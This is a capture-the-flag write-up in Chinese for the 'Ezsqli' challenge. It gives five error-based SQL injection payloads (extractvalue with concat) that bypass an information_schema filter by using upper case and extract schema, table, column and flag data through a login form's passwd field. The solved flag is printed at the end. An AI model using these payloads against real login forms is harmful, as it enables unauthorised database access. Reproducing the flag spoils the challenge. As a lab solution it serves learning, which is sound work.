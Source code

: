 # Ezsqli

## 思路分析

> 打开地址,有一个登录框,根据题目名字猜想是sql注入,经过测试发现uname和passwd这2处参数存在布尔盲注,在用information_schema时发现有过滤,最后才发现,直接大写就绕过了.

## payload

> uname=admin&passwd=1' and extractvalue(1,concat(0x7e,(select mid(group_concat(SCHEMA_NAME),1,32) from INFORMATION_SCHEMA.SCHEMATA))) or '1=1

> uname=admin&passwd=1' and extractvalue(1,concat(0x7e,(select substr(GROUP_CONCAT(TABLE_NAME),1,32) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='security'))) or '1=1

> uname=admin&passwd=1' and extractvalue(1,concat(0x7e,(select substr(GROUP_CONCAT(COLUMN_NAME),1,32) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='flag'))) or '1=1

> uname=admin&passwd=1' and extractvalue(1,concat(0x7e,(select substr(flag_that_you_find_must_be_me,1,32) FROM flag))) or '1=1

> uname=admin&passwd=1' and extractvalue(1,concat(0x7e,(select substr(flag_that_you_find_must_be_me,32,64) FROM flag))) or '1=1

## flag

> flag{c7651cb673c911ee8f9977094a220f17}